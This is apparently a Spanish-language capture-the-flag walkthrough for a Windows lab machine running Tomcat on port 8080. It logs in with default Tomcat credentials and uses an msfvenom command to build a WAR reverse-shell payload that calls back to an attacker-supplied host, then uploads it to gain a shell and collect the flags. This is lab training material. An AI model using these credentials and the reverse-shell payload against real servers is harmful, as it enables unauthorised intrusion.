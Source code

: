 10.10.10.95
Windows
Port: 8080

- Vamos a ver su pagina web.
- Tenemos un Tomcat, por lo tanto existe un login para poder entrar.
![[Pasted image 20250317174502.png]]
![](Pasted%20image%2020250322163216.png)
- Sabemos que por lo general cuando no se configura bien, Tomcat viene con usuarios predefinidos, vamos a probar cada usuario
- Las credenciales eran, ==tomcat:s3cret==.
![[Pasted image 20250317175955.png]]
- Tenemos como subir un archivo para hacer una reverse.
- Vamos a hacer un payload con msfvenom.
```
msfvenom -p java/shell_reverse_tcp LHOST=(IP_ATACANTE) LPORT=443 -f war -o (NOMBRE)
```
![[Pasted image 20250317180229.png]]
- Vamos a subirlo.
![[Pasted image 20250317180320.png]]
- Ya esta subido, vamos a hacer la reverse y recordar hacer otra reverse estando dentro para tener una conexión mas estable.
![[Pasted image 20250317180523.png]]
- Ya estamos dentro.
- Buscamos y encontraremos las flags de usuario y root.